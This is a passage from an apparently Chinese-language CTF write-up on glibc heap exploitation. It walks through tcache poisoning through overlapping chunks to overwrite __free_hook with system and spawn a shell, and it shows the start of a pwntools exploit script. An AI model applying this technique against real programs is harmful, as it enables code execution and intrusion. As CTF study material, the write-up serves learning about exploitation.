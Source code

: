 现在，我们可以申请合适大小的chunk，来修改0x60 tcache bin头结点的fd指针，让它指向free_hook

1.  #接下来，我们再申请，又从unsorted bin里切割一块，但是切得的这一块与chunk7有重合的部分，因此我们可以修改chunk7的fd，让它指向free_hook  
2.  payload = '\x00' * 0x20 + p64(free_hook_addr)  
3.  create(sh,0x30,payload) #15  

我们再看看bins

![](img/1f2229338061301e6ec932e7b9dd9d62.png)

那么，我们接下来继续申请，正好把free_hook指向system，然后18个堆正好用完

1.  create(sh,0x50,'e'*0x50) #16  
2.  #将free_hook指向system  
3.  create(sh,0x50,p64(system_addr)) #17  
4.  #getshell  
5.  delete(sh,11)  

由于只有1/16的几率，我们还需要爆破，综上，我们的exp脚本

1.  #coding:utf8  
2.  **from** pwn **import** *  

4.  libc = ELF('./libc.so.6')  
5.  free_s_hook = libc.symbols['__free_hook']  
6.  _IO_2_1_stdout_s = libc.symbols['_IO_2_1_stdout_']  
7.  _IO_stdfile_2_lock = libc.symbols['_IO_stdfile_2_lock']  
8.  system_s = libc.sym['system']  

10.  **def** create(sh,size,content):  
11.  sh.sendlineafter('3.exit','1')  
12.  sh.sendlineafter('size:',str(size))  
13.  sh.sendafter('content:',content)  

15.  **def** delete(sh,index):  
16.  sh.sendlineafter('3.exit','2')  
17.  sh.sendlineafter('index:',str(index))  

19.  #getchar()会申请large bin触发malloc consolidate  
20.  **def** mallocConsolidate(sh):  
21.  sh.sendlineafter('3.exit\n','3')  
22.  sh.sendafter('sure?\n','n')  
